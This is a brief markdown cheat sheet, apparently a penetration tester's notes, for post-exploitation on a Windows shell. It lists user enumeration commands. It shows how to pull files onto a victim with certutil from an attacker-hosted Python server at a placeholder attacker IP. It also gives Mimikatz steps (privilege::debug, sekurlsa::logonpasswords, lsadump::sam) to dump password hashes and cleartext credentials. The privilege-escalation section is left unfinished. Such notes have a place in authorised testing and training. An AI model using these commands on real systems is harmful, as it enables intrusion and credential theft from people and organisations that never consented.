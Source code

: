 # Windows Shell

## Enumeration

- list users

      net users

- list adminstrator group members

      net localgroup administrator

## Management

- file upload

    - Start http server on attacker machine

          python3 -m http.server 4444

    - Upload file

          certutil -urlcache -f http://<attacker_ip>/<filename>

## Privesc

- Check for 
- Bypass User Access Control (UAC)  

## Loot

- Dump hashes (Mimikatz)

    -  x86: upload /usr/share/windows-resources/binaries/mimikatz/Win32/mimkatz.exe
    -  x64: upload /usr/share/windows-resources/binaries/mimikatz/x64/mimkatz.exe
    -  Run:

           .\mimikatz.exe

    - Check for necessary privileges

          privilege::debug

    - dump hashes + cleartext passwords

          sekurlsa::logonpasswords
          lsadump::sam
          



